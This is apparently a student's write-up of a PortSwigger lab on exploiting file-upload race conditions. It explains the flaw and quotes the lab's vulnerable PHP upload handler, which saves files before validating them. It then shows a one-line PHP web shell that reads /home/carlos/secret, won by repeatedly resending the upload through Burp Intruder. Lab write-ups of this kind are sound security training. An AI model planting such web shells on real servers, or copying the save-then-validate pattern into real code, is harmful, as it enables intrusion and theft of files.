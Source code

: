 ```yaml
---
tags: ["race condition"]
image: "img/Portswigger/file-upload.jpg"
---
```


## Exploiting file upload race conditions

Modern frameworks are more battle-hardened against these kinds of attacks. They generally don't upload files directly to their intended destination on the filesystem. Instead, they take precautions like uploading to a temporary, sandboxed directory first and randomizing the name to avoid overwriting existing files. They then perform validation on this temporary file and only transfer it to its destination once it is deemed safe to do so.

That said, developers sometimes implement their own processing of file uploads independently of any framework. Not only is this fairly complex to do well, it can also introduce dangerous race conditions that enable an attacker to completely bypass even the most robust validation.

For example, some websites upload the file directly to the main filesystem and then remove it again if it doesn't pass validation. This kind of behavior is typical in websites that rely on anti-virus software and the like to check for malware. This may only take a few milliseconds, but for the short time that the file exists on the server, the attacker can potentially still execute it.

These vulnerabilities are often extremely subtle, making them difficult to detect during blackbox testing unless you can find a way to leak the relevant source code.

## Challenge

> This lab contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them.
> To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.
> You can log in to your own account using the following credentials: `wiener:peter`

--> In this lab the backend code is looks like this :

```php
`<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```

--> This website is checking the file for viruses after upload so if we upload the file continuesly and then keep refresh the page then we can see the content of the file and it's called `race condition`

--> So i made one basic payload and injected it :

```php
<?php echo shell_exec('cat /home/carlos/secret'); ?>
```

--> after that i forwarded that request to intruder and then brute forced the `user-agent`

![](Attachments/Pastedimage20220125142120.png)

--> I brute forced using the number

![](Attachments/Pastedimage20220125133903.png)

--> Durint the brute force we can goto `/files/avatars/webshell.php` and refresh the page and get the flag!

![](Attachments/Pastedimage20220125134232.png)

--> And i we solved the lab!

![](Attachments/Pastedimage20220125134214.png)

